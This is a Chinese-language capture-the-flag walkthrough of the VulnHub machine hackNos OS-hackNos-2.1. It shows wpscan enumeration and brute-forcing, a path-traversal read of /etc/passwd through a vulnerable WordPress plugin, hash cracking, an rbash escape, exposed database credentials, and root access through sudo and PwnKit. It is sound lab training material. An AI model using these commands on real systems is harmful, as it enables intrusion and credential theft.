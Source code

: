 # HACKNOS: OS-HACKNOS-2.1

2025.02.18 https://www.vulnhub.com/entry/hacknos-os-hacknos-21,403/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

gobuster 扫描出一个 http://192.168.5.40/tsweb/ 打开后是一个 wordpress，在页面底部发现一个邮箱，可能存在的系统用户名为 rahulgehlaut ，尝试用 wpscan 进行枚举：

```
wpscan --url http://192.168.5.40/tsweb/ -e u,ap,at --plugins-detection mixed
```

发现了一个用户名 user，尝试登陆页面爆破：

```
wpscan --url http://192.168.5.40/tsweb/ -U user -P ~/tools/dict/passwd_1050.txt -t 32
```

无结果。

在看看 wp 的插件是否有可以利用的漏洞，发现插件 akismet、classic-editor、gracemedia-media-player 其中 gracemedia-media-player 有文件包含漏洞：

```
curl http://192.168.5.40/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
rohit:x:1000:1000:hackNos:/home/rohit:/bin/bash
flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/:1001:1003::/home/flag:/bin/rbash
```

尝试对 flag 用户的哈希进行破解，得到密码: topsecret

尝试 ssh 登陆并且绕过 rbash:

```
ssh flag@192.168.5.40 -t "bash --noprofile"
```

进入/var/www/html 文件夹找到 wp 的数据库配置文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'hackNos-2.com' );
define( 'DB_HOST', 'localhost' );
```

尝试用数据库的密码切换到 rohit 用户，切换失败。

通过枚举，发现另外一个 hash 备份文件：

```
flag@hacknos:/$ cat /var/backups/passbkp/md5-hash
$1$rohit$01Dl0NQKtgfeL08fGrggi0
```

尝试解密哈希得到密码为: !%hack41 使用此密码切换到 rohit。

先获得了 user flag:

```
rohit@hacknos:~$ cat user.txt
############################################
 __    __   _______   ______    ______
/  |  /  | /       | /      \  /      \
$$ |  $$ |/$$$$$$$/ /$$$$$$  |/$$$$$$  |
$$ |  $$ |$$      \ $$    $$ |$$ |
$$ \__$$ | $$$$$$  |$$$$$$$$/ $$ |
$$    $$/ /     $$/ $$       |$$ |
 $$$$$$/  $$$$$$$/   $$$$$$$/ $$/



############################################

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

sudo -l 发现 ALL，直接提权到 root:

```
rohit@hacknos:~$ sudo su
root@hacknos:/home/rohit# cd /root
root@hacknos:~# ls
root.txt
root@hacknos:~# cat root.txt
 _______                         __              __  __     #
/       \                       /  |            /  |/  |    #
$$$$$$$  |  ______    ______   _$$ |_          _$$ |$$ |_   #
$$ |__$$ | /      \  /      \ / $$   |        / $$  $$   |  #
$$    $$< /$$$$$$  |/$$$$$$  |$$$$$$/         $$$$$$$$$$/   #
$$$$$$$  |$$ |  $$ |$$ |  $$ |  $$ | __       / $$  $$   |  #
$$ |  $$ |$$ \__$$ |$$ \__$$ |  $$ |/  |      $$$$$$$$$$/   #
$$ |  $$ |$$    $$/ $$    $$/   $$  $$/         $$ |$$ |    #
$$/   $$/  $$$$$$/   $$$$$$/     $$$$/          $$/ $$/     #
#############################################################

#############################################################
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Blog : www.hackNos.com

Author : Rahul Gehlaut

linkedin : https://www.linkedin.com/in/rahulgehlaut/
#############################################################
```

第二种提权路径：发现 CVE-2021-4034 PwnKit ，直接上传 pwnkit 同样也可以提权到 root：

```
flag@hacknos:/tmp$ ./pwnkit
root@hacknos:/tmp# cd /root
root@hacknos:~# ls -al
```
